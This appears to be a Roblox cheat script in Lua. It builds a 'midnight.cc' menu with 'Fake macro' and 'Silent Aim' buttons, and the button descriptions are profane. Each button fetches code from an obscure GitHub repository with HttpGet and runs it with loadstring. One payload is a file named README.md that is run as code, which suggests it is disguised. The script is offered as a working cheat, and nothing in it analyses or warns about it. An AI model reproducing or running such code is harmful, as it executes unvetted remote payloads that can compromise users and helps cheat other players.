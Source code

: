 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("midnight.cc", "Midnight")
local Tab = Window:NewTab("Main")
local Section = Tab:NewSection("Main")
Section:NewButton("Fake macro (C)", "SHUT THE FUCK UP", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/wiqafuwqufwqu/FWAFAWFSAF/main/README.md"))()
end)
Section:NewButton("Silent Aim", "SHUT THE FUCK UP", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/wiqafuwqufwqu/FUWQ78C7HAHSJHX/main/README.lua"))()
end)
